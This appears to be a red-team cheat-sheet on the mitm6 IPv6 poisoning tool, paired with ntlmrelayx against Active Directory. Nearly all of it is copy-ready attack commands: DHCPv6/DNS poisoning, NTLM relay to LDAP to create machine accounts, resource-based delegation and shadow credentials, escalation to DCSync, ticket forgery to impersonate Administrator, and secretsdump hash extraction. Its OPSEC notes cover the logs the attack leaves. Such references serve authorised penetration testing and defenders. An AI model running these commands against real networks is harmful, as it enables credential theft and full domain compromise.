

# mitm6

**Tags:** `#mitm6` `#ipv6` `#lateral` `#activedirectory` `#ntlmrelay` `#dhcpv6` `#dns`

IPv6 MITM attack tool — exploits the fact that Windows prefers IPv6 over IPv4 by default. mitm6 responds to DHCPv6 requests, assigns itself as the IPv6 DNS server, then redirects authentication traffic to ntlmrelayx. Particularly effective for LDAP relay attacks since it captures credentials from Windows hosts that support IPv6 (which is virtually all of them) without needing LLMNR/NBT-NS broadcast traffic.

**Source:** https://github.com/dirkjanm/mitm6
**Install:** `sudo apt install mitm6` (Kali-packaged, currently 0.3.0) or `pipx install mitm6` (plain `pip install` is blocked by PEP 668 on modern Kali)

```bash
# Start mitm6 for a domain
sudo mitm6 -d domain.local

# Run alongside ntlmrelayx targeting LDAP
ntlmrelayx.py -6 -t ldaps://dc01.domain.local -smb2support --add-computer
```

> [!note] **mitm6 vs Responder** — Responder poisons LLMNR/NBT-NS (Layer 2 broadcast — same subnet only). mitm6 poisons DHCPv6 and IPv6 DNS — also subnet-limited but captures different authentication paths. Use both together for maximum coverage. mitm6 is especially effective for LDAP relay since it captures WPAD proxy auth from browsers.

---

## Basic Usage

```bash
# Target specific domain (limits scope — recommended)
sudo mitm6 -d domain.local

# Target multiple domains
sudo mitm6 -d domain.local -d child.domain.local

# Specific interface
sudo mitm6 -d domain.local -i eth0

# Reduce blast radius: only spoof DNS for these domains (-d = allowlist, repeatable),
# and only answer DHCPv6 for these exact hostnames (-hw = FQDN allowlist, repeatable)
sudo mitm6 -d domain.local -hw victim-pc.domain.local

# Blocklist a domain from DNS spoofing instead (-b, repeatable)
sudo mitm6 -d domain.local -b updates.domain.local

# --ignore-nofqdn = skip DHCPv6 SOLICITs that carry no FQDN option (cuts noise from
# non-domain devices). NOTE: this is NOT a host-exclusion filter — use -hw/-b for that.
sudo mitm6 -d domain.local --ignore-nofqdn

# Verbose
sudo mitm6 -d domain.local -v
```

---

## Combined with ntlmrelayx (Standard Attack)

```bash
# Terminal 1 — mitm6 (IPv6 DNS poisoning + DHCPv6)
sudo mitm6 -d domain.local

# Terminal 2 — ntlmrelayx (relay captured auth to LDAP)
ntlmrelayx.py -6 -t ldaps://dc01.domain.local -smb2support --no-da --no-acl

# -6 = listen on IPv6
# -t ldaps = relay to secure LDAP (LDAP relay is not blocked by SMB signing)
```

---

## LDAP Relay Attacks via mitm6

```bash
# Dump domain info via LDAP relay
ntlmrelayx.py -6 -t ldap://dc01.domain.local -smb2support

# Create computer account (for Kerberos attacks — requires MachineAccountQuota > 0)
ntlmrelayx.py -6 -t ldaps://dc01.domain.local -smb2support --add-computer 'hacker-pc$'

# RBCD — delegate access to compromised computer
ntlmrelayx.py -6 -t ldaps://dc01.domain.local -smb2support \
  --delegate-access --escalate-user lowpriv

# Shadow credentials (add KeyCredential to target)
ntlmrelayx.py -6 -t ldaps://dc01.domain.local -smb2support \
  --shadow-credentials --shadow-target 'TargetUser'

# Escalate specific user to DA via ACL abuse
ntlmrelayx.py -6 -t ldaps://dc01.domain.local -smb2support --escalate-user lowpriv
```

---

## How It Works



---

## After Successful Relay

```bash
# If --add-computer succeeded — use new computer account for S4U2Self
# Get TGT for the new computer account
getTGT.py domain.local/'hacker-pc$':Password -dc-ip 192.168.1.1

# S4U2Self — impersonate admin
getST.py -spn cifs/target.domain.local -impersonate Administrator \
  -dc-ip 192.168.1.1 domain.local/'hacker-pc$':Password

# Use the service ticket
KRB5CCNAME=Administrator.ccache secretsdump.py -k -no-pass target.domain.local

# If --escalate-user succeeded — user now has DCSync rights
secretsdump.py DOMAIN/lowpriv:Password@dc01.domain.local -just-dc
```

---

## OPSEC Notes

- mitm6 sends DHCPv6 responses to every host on the subnet that sends DHCPv6 SOLICITs — can disrupt IPv6 connectivity
- Windows hosts only send DHCPv6 SOLICITs periodically (on network change, boot, or reconnect) — patience required
- Event ID **4741** (computer account created) appears in AD if `--add-computer` succeeds
- LDAP relay leaves **4662** (directory access) events on the DC
- Shut down mitm6 promptly after capturing what you need — extended runtime causes network disruption

---

> [!note] **See also** — Always paired with [[Tools/Lateral Movement/ntlmrelayx|ntlmrelayx]] (`-6`); the LDAP-relay outcomes (`--add-computer`, `--delegate-access`, `--shadow-credentials`) are documented there. Broadcast-poisoning counterpart on the same subnet: [[Tools/Lateral Movement/responder|Responder]] (run both for coverage). Force auth on demand with [[Tools/Lateral Movement/Coercer|Coercer]]. Protocol background: [[Standards & Protocols/NTLM|NTLM]].

---

*Created: 2026-03-06*
*Updated: 2026-08-29*
*Model: claude-opus-5*
